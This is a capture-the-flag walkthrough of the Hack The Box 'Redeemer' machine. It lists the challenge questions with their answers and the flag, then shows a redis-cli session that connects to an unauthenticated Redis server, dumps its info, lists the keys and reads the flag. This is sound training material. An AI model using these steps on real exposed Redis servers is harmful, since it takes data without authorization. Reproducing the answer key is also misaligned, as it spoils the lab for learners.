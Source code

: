 
#### Which TCP port is open on the machine?
6379

#### Which service is running on the port that is open on the machine?
redis

#### What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database
In-memory Database

#### Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.
redis-cli

#### Which flag is used with the Redis command-line utility to specify the hostname?
-h

#### Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?
info

#### What is the version of the Redis server being used on the target machine?
5.0.7

#### Which command is used to select the desired database in Redis?
select

#### How many keys are present inside the database with index 0?
4

#### Which command is used to obtain all the keys in a database?
keys *

#### Submit root flag
03e1d2b376c37ab3f5319922053953eb



``` bash
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Redeemer]
└──╼ $redis-cli -h 10.129.144.239
10.129.144.239:6379> info 
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:752
run_id:7c7b63594d79c02b3f2295af3322792246300210
tcp_port:6379
uptime_in_seconds:736
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:7750615
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:859624
used_memory_human:839.48K
used_memory_rss:5890048
used_memory_rss_human:5.62M
used_memory_peak:859624
used_memory_peak_human:839.48K
used_memory_peak_perc:100.12%
used_memory_overhead:846142
used_memory_startup:796224
used_memory_dataset:13482
used_memory_dataset_perc:21.26%
allocator_allocated:1570200
allocator_active:1892352
allocator_resident:9101312
total_system_memory:2084024320
total_system_memory_human:1.94G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.21
allocator_frag_bytes:322152
allocator_rss_ratio:4.81
allocator_rss_bytes:7208960
rss_overhead_ratio:0.65
rss_overhead_bytes:-3211264
mem_fragmentation_ratio:7.20
mem_fragmentation_bytes:5072432
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:4
rdb_bgsave_in_progress:0
rdb_last_save_time:1685471479
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:6
total_commands_processed:6
instantaneous_ops_per_sec:0
total_net_input_bytes:306
total_net_output_bytes:11572
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:5aa92ab51f3a67047bfd6bdb6febcadece4a120c
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.636231
used_cpu_user:0.786551
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.129.144.239:6379> keys *
1) "flag"
2) "stor"
3) "temp"
4) "numb"
10.129.144.239:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.144.239:6379> 

``` 